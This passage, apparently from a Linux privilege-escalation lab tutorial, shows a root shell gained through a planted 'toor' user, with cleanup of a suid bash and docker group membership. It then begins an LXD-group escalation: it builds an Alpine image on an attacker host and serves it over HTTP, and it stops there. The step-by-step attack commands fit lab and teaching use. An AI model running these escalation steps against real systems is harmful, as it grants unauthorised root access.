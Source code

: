 ```bash
user@pwn:~$ su - toor
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
user@pwn:~$ 
```

Remove the toor user from `/etc/passwd` and remove the bash suid bit binary:

```shell
# vim /etc/passwd
# rm /home/user/bash
```

Remove the current user from the docker group:

```shell
sudo gpasswd -d user docker
```

Reboot the system to apply the change:

```shell
reboot
```

# Privilege Escalation via LXD Group

The `LXD` group can be used to manage `LXD` containers. We'll install `LXD` and add the current user to the `LXD` group: 

```bash
sudo apt install lxd && sudo usermod -aG lxd user && reboot
```

In the adversary host, clone the Alpine repo:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
```

Navigate to the directory:

```bash
cd lxd-alpine-builder
```

Then build the container image:

```bash
sudo ./build-alpine
```

Setup a python3 HTTP service:

```bash
sudo python3 -m http.server 80
```
